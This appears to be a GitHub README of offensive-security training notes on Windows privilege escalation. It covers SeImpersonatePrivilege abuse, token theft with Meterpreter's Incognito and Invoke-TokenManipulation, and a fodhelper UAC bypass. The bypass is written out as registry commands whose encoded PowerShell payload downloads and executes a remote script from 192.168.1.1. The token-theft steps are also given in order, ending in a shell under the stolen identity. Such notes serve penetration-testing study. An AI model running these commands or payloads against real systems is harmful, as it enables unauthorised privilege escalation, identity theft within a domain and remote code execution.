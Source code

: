 **IMPERSONATION:**

If you want to leverage the "SeImpersonatePrivilege", please refer to this [script](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Windows%20Credentials/PrintSpooferNet.cs), which is used in conjuction with [SpoolSample](https://github.com/leechristensen/SpoolSample).

However if you want to impersonate already logged in users, you can use [incognito](https://www.offsec.com/metasploit-unleashed/fun-incognito/)(through a meterpreter session) or this [powershell script](https://github.com/clymb3r/PowerShell/tree/master/Invoke-TokenManipulation).

**IMPORTANT NOTE TO TAKE IN MIND WHEN IMPERSONATING LOGONS:**  

What does matter is the logon type used to create the logon token. If a user connects using Network Logon (aka type 3 logon), the computer will not have any credentials for 
the user. Since the computer has no credentials associated with the token, it will not be possible to authenticate off-box with the token. All other logon types
should have credentials associated with them (such as Interactive logon, Service logon, Remote interactive logon, etc).

There are two types of tokens: delegate and impersonate. Delegate tokens are created for ‘interactive’ logons, such as logging into the machine or connecting to it via Remote Desktop. Impersonate tokens are for ‘non-interactive’ sessions, such as attaching a network drive or a domain logon script.
The other great things about tokens? They persist until a reboot. When a user logs off, their delegate token is reported as an impersonate token, but will still hold all of the rights of a delegate token.

TIP: File servers are virtual treasure troves of tokens since most file servers are used as network attached drives via domain logon scripts

(credit to Offsec and clymb3r for this awsome theory explanation).

**Incognito usage:**

Review this link: https://www.offsec.com/metasploit-unleashed/fun-incognito/

But in a nutshell these are the steps to take:

```
1st Migrate to a procces owned by the user we want to impersonate
2nd load incognito
3rd list_tokens -u
4th impersonate_token DEV\\trike   -> for example
5th shell or execute -f cmd.exe -i -t
```

**Invoke-TokenManipulation usage:**

Review its manual specified as comments at the first lines of the script, and this [link](https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/) that contains an overview on tokens and Windows authentication, An overview of what the script does, and problems/solutions encountered when building it and a demonstration of the script.

**UAC BYPASS IMPROVEMENT:**

From powershell throw this commands:

```
1. New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe -enc SQBFAFg...” -Force
2. New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyTypeString -Force
3. Execute fodhelper.exe -> if you are in a x86 process: c:\windows\sysnative\cmd.exe /c c:\windows\system32\fodhelper.exe
						             -> if you are in a x64 process: c:\windows\system32\fodhelper.exe
						
The base64 powershell encoded string was -> IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt')
```

Additionally to this techniques I would recomend you to use the [WinPeas](https://github.com/carlospolop/PEASS-ng/) script in order to enumerate other posible privilege escalation avenues.
